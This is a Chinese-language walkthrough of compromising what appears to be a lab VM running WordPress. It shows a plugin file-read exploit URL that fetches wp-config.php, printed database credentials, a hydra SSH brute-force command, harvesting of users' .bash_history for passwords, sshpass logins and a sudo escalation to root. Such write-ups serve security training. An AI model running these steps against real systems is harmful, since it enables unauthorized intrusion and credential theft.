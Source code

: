 注意这里payload目录显示wordpress，我们当前目标是bolgbolg
```
https://192.168.1.84:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=wp-config.php
页面报错
但回到上传目录多了个图片
wget --no-check-certificate https://192.168.1.84:12380/blogblog/wp-content/uploads/794436652.jpeg
下载下来，查看没有任何信息
```

第一次读取报错，可能是不允许读取或者不在当前目录把 试着读取查看上一级
![65db37b47ab9decef7ca4365c25952bc.png](../../_resources/65db37b47ab9decef7ca4365c25952bc.png)
页面无报错
![69b0aa06a42a08216b7ddc101e9dbf1a.png](../../_resources/69b0aa06a42a08216b7ddc101e9dbf1a.png)

下载新增的图片查看，有信息了且获得数据的账号密码
![fbe1ae5423404ab1d34e60cbb643d213.png](../../_resources/fbe1ae5423404ab1d34e60cbb643d213.png)
接下来尝试用这两个账号登录数据库或ssh
```
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');
```


ssh root@192.168.1.84 #该账号登录不上去，

尝试之前保存的id列表，爆破该密码
hydra -L id.list -P passwd.list 192.168.1.84 ssh
![a3cc00ece6dab6613787249b3f4dc9bf.png](../../_resources/a3cc00ece6dab6613787249b3f4dc9bf.png)
爆出一个 #这里如果不行还是可以尝试登录mysql的

常规提权查找。。。

sshpass 查找该工具，该工具是方便运维管理ssh的工具
history
![a44b922d298370368b93b48abcf667da.png](../../_resources/a44b922d298370368b93b48abcf667da.png)

查找其他用户，
![dc364d804bceb7712cb78c1a76b827ba.png](../../_resources/dc364d804bceb7712cb78c1a76b827ba.png)
ls -al 也都有查看的权限

cat ./*/.bash_history #当前目录下所有用户里的bash_history文件，该文件是记录历史命令的平时以history调用

找到两个账号密码
![5c69e9028000afc78a788d06fdd83753.png](../../_resources/5c69e9028000afc78a788d06fdd83753.png)
sshpass -p thisimypassword ssh JKanode@localhost
sshpass -p JZQuyIN5 peter@localhost

peter的账号有完全sudo权限
sudo su #结束！
![803c5fbeae0648e3396a299373003589.png](../../_resources/803c5fbeae0648e3396a299373003589.png)